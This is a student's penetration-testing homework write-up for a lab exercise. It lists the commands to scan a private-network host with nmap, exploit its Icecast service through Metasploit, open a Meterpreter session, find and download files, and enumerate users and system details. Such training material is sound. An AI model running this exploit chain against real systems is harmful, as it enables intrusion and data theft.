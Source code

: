 # **Brian C Williams 17-Penetration II Homework** # 

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

1. Run the Nmap command that performs a service and version scan against the target.

	**Answer: nmap -sV 192.168.0.20**

	![Image of question1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast 	      	 exploits:

	Run the SearchSploit commands to show available Icecast exploits.

	**Answer: searchsploit icecast windows**

	![Image of q2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q2.PNG)

3. Now that we know which exploits are available to us, let's start Metasploit:

	Run the command that starts Metasploit:
	
	**Answer: msfconsole -u** 
	        **msfconsole** 

	![Image of q3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q3.PNG)

4. Search for the Icecast module and load it for use.
	
	Run the command to search for the Icecast module:

	**Answer: search icecast**

	![Image of q4](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q4.PNG)

5. Run the command to use the Icecast module:
	
	Note: Instead of copying the entire path to the module, you can use the number in front of it.
        
	**Answer: use exploit/windows/http/icecast_header or use 0**
	
        ![Image of q5](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q5.PNG)

6. Set the RHOST to the target machine.
   
      Run the command that sets the RHOST:
	
      **Answer: set RHOST 192.168.0.20**
	
      ![Image of q6](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q6.PNG)
   
7. Run the Icecast exploit.

  	Run the command that runs the Icecast exploit.

	**Answer: run or exploit**
	
	![Image of q7](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q7.PNG)

8. Run the command that performs a search for the secretfile.txt on the target.

	**Answer: search -f  *secretfile.txt**
	
	![Image of q8](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q8.PNG)

9. You should now have a Meterpreter session open.
   
      Run the command to performs a search for the recipe.txt on the target:

	**Answer: search -f *recipe.txt**
	
	![Image of q9](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q9.PNG)

	Bonus: Run the command that exfiltrates the recipe*.txt file:

	**Answer: download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt**
		**download c:\\Users\\IEUSER\\Documents\\user.secretfile.txt**
	
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q10.PNG)
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q12.PNG)

10. You can also use Meterpreter's local exploit suggester to find possible exploits.

	**Answer: run post/multi/recon/local_exploit_suggester**
	
	![Image of q10](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q11.PNG)

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus

A. Run a Meterpreter post script that enumerates all logged on users.
	
	**Answer: run post/windows/gather/enum_logged_on_users**

	![Image of bonus1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B1.PNG)

B. Open a Meterpreter shell and gather system information for the target.
	
	**Answer: shell**
 		**systeminfo**
	
	![Image of bonus2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B2.PNG)
	
C. Run the command that displays the target's computer system information:

	**Answer: sysinfo**
	
	![Image of bonus3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B3.PNG)


